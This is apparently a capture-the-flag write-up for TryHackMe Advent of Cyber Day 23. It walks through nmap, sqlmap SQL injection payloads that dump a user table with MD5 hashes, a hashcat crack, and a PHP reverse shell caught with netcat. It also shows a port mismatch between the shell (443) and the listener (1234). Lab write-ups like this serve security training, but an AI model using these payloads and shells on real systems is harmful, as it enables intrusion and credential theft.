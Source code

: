 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 23
### References
* MuirlandOracle. (2020, January 6). MuirlandOracle. MuirlandOracle’s Blog. https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/
## Reconnaissance
* An `nmap` scan:
```bash
$ sudo nmap -sV -p- -vv 10.10.224.13
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2. The HTTP request used for loging in that Burpsuite captured (saved as `request.txt`):
```http
POST /register.php HTTP/1.1
Host: 10.10.224.13
Content-Length: 62
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.224.13
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.224.13/register.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=4ff77qqc7jmoamdon1h2touoih
Connection: close

log_email=test%40test.org&log_password=test&login_button=Login
```
## Which field is SQL injectable? Use the input name used in the HTML code.
* Use `sqlmap` to find the name of the database and the SQL-injectable field:
```bash
$ sqlmap -r $(pwd)/request.txt --current-db
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
current database: 'social'
```
**Answer**: `log_email`
## What is Santa Claus' email address?
1. Use `sqlmap` to get the table names under the `social` database:
```bash
$ sqlmap -r $(pwd)/request.txt -D social --tables	
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
---
Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
```
2. 
```bash
$ sqlmap -r $(pwd)/request.txt -D social -T users -C username,email,password --dump
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 2841 FROM (SELECT(SLEEP(5)))OIiK) AND 'FpXc'='FpXc&log_password=test&login_button=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: log_email=test@test.org' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a717171,0x6c70647376585242715742557051726f556f6d6d45794b4b476547665575685347497153756d476f,0x7170716b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=test&login_button=Login
---
Database: social
Table: users
[9 entries]
+-----------------------+------------------------+----------------------------------+
| username              | email                  | password                         |
+-----------------------+------------------------+----------------------------------+
| santa_claus           | bigman@shefesh.com     | f1267830a78c0b59acc06b05694b2e28 |
| mommy_mistletoe       | mmtoe@shefesh.com      | 402223cb4df4c5050a38043d38b1372b |
| arnold_schwarzenegger | terminator@shefesh.com | 78a6d0e6c73a29ef6d07d56f32f67b30 |
| johnfortnite_kennedy  | jayfkay@shefesh.com    | bc808149a93bc7050c3c6c4b7a5a0c97 |
| john_richardson       | john@keepingit.online  | aa4e356d1509f1c1f53e0191601cde72 |
| naughty_elf           | notty@shefesh.com      | 6aff5ae0718de8945a3f71ba4d1ca76f |
| felix_navidad         | felixnav@shefesh.com   | 57e9eb182943223b0b4e7f17c5e4cb6e |
| jessica_claus         | mrsclaus@shefesh.com   | 15bc4f3ba871b2fa651363dcddfb27d9 |
| myron_larabee         | mailman@shefesh.com    | a60c0662c54bde0301d9aa2ad86203df |
+-----------------------+------------------------+----------------------------------+
```

**Answer**: `bigman@shefesh.com`
## What is Santa Claus' plaintext password?
```bash
$ hashcat -a 0 -m 0 'f1267830a78c0b59acc06b05694b2e28' rockyou.txt
f1267830a78c0b59acc06b05694b2e28:saltnpepper
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: f1267830a78c0b59acc06b05694b2e28
Time.Started.....: Wed Jun 30 16:42:37 2021 (0 secs)
Time.Estimated...: Wed Jun 30 16:42:37 2021 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:   947.9 kH/s (11.70ms) @ Accel:64 Loops:1 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 172032/14344384 (1.20%)
Rejected.........: 0/172032 (0.00%)
Restore.Point....: 147456/14344384 (1.03%)
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#2....: mckenzy -> florida69
```
**Answer**: `saltnpepper`
## Santa has a secret! Which station is he meeting Mrs Mistletoe in?
1. Login as Santa with the email `bigman@shefesh.com` and password saltnpepper `saltnpepper`.
2. Access the chat messages between Santa Mrs Mistletoe:
![chat messages between Santa Mrs Mistletoe](chat.jpg)

**Answer**: `Waterloo`
## Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in `/home/user/`
1. Download the [PHP file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) written by @pentestmonkey.
2. Modify the `$ip` variable to your TryHackMe IP address (green bubble on the navbar):
```php
$ip = '<OPENVPN_IP>';
$port = 443;
```
3. Rename the file to `php-reverse-shell.phtml`.
4. Run `nc -lvnp 1234` and upload `php-reverse-shell.phtml`:
```bash
$ nc -lvnp 1234
$ cd /home/user/
$ ls
flag.txt
$ cat flag.txt
MERRY CHRISTMAS FROM SHEFFIELD, UK

CREATED IN COLLABORATION WITH TRYHACKME.COM

THM{SHELLS_IN_MY_EGGNOG}
```

**Flag**: `THM{SHELLS_IN_MY_EGGNOG}`